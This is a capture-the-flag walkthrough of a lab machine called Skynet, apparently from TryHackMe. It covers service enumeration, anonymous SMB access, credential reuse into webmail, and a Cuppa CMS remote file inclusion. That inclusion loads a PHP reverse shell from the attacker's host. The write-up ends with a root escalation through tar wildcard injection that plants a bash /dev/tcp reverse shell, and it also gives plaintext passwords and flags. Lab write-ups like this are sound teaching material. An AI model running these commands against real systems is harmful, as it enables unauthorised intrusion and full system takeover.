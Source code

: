 #CTF 

## Recon

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL AUTH-RESP-CODE PIPELINING RESP-CODES UIDL CAPA TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK post-login more ID capabilities have Pre-login LOGINDISABLEDA0001 LITERAL+ IDLE IMAP4rev1 SASL-IR listed ENABLE LOGIN-REFERRALS
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-08T17:49:15
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-06-08T12:49:16-05:00
```

Gobuster

```
===============================================================
2023/06/08 13:50:19 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.10.254.249/admin/]
/config               (Status: 301) [Size: 315] [--> http://10.10.254.249/config/]                                                              
/css                  (Status: 301) [Size: 312] [--> http://10.10.254.249/css/]                                                                 
/index.html           (Status: 200) [Size: 523]
/js                   (Status: 301) [Size: 311] [--> http://10.10.254.249/js/]                                                                  
/server-status        (Status: 403) [Size: 278]
/squirrelmail         (Status: 301) [Size: 321] [--> http://10.10.254.249/squirrelmail/]                                                        
Progress: 4584 / 4615 (99.33%)
===============================================================
2023/06/08 13:50:54 Finished
===============================================================
```

## Access

To see the SMB shares I type
`smbmap -H 10.10.254.249 `

```
[+] Guest session       IP: 10.10.254.249:445   Name: 10.10.254.249                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
```

anonymous I readonly , so I can access it, and to do so I type:
`smbclient //[ip]/anonymous` and I am in.
I grab attention.txt and the log files.
log1.txt has some potential passwords

I navigate to the http page /squirrelmail
I enter milesdyson as username and as password cyborg007haloterminator that I took from log1.txt

I am in. I open the first mai and it says
```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I have the creds for the milesdyson smb share
So I login. I get /notes/important.txt
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

The secret directory is /45kra24zxs28v3yd
I use Gobuster on it
```
===============================================================
2023/06/08 14:08:35 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/administrator        (Status: 301) [Size: 339] [--> http://10.10.254.249/45kra24zxs28v3yd/administrator/]                                      
/index.html           (Status: 200) [Size: 418]
Progress: 4587 / 4615 (99.39%)
===============================================================
2023/06/08 14:09:09 Finished
===============================================================
```


## Exploitation

I go to /administrator and find a login form.
I will try to exploit the Cuppa CMS
```
searchsploit cuppa      
-------------------------------------- ---------------------------------
 Exploit Title                        |  Path
-------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' L | php/webapps/25971.txt
-------------------------------------- ---------------------------------
```

I downloaded a reverse shell script , changed the ip and port.
I opened a Netcat session on that port
I opened a python local server
Lastly I typed
```
curl http://[ip]/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php/?urlConfig\=http://[ local ip ]:80/php-reverse-shell.php
```

So the netcat session got the connection.
Found the flag on /home/milesdyson
`7ce5c2109a40f958099283600a9ae807`
## Privilege Escalation

By viewing /etc/crontab 
```
# m h dom mon dow user  command                                                                                                                                                                                                             
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh                                                                                                                                                                                  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                                                                                                                                                         
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                                                                                                                                         
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                                                                                                                                        
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )   
```

I notice that  /home/milesdyson/backups/backup.sh get called every minute
```
#!/bin/bash                                     
cd /var/www/html                                        
tar cf /home/milesdyson/backups/backup.tgz * 
```


I open a Netcat listener on 8585

To exploit it I type
`cd /var/www/html`
`printf '#!/bin/bash\nbash -i >& /dev/tcp/[ local ip ]/8585 0>&1\n' > rev.sh``
`touch /var/www/html/--checkpoint-action=exec=bash\ rev.sh`
 `touch /var/www/html/--checkpoint=1`

And I am in as root and get the flag
`3f0372db24753accc7179a282cd6a949`
